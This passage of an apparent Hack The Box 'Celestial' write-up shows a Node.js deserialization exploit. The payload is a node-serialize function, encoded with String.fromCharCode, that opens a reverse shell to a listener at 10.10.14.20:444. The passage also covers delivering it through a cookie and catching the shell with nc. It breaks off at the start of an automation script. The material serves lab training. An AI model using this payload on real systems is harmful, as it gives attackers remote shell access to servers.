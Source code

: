 ```js
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,50,48,34,59,10,80,79,82,84,61,34,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-11-HackTheBox-Celestial/2021-09-11-HackTheBox-Celestial%2009:52:42.png)

Now, just put on the Cookie and open our nc listener

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-11-HackTheBox-Celestial/2021-09-11-HackTheBox-Celestial%2009:54:03.png)

It shows an error message, but we got the reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-11-HackTheBox-Celestial/2021-09-11-HackTheBox-Celestial%2009:53:49.png)

Ok, now let's automate it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-11-HackTheBox-Celestial/2021-09-11-HackTheBox-Celestial%2002:35:53.png)

auto_rev.py

```py
#!/usr/bin/python3
# Date: 2021-10-12
# Exploit Author: 0x4rt3mis
# Hack The Box - Celestial
# Auto exploit from NodeJS Deserealization
# https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

import argparse
import requests
import sys
import base64
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
```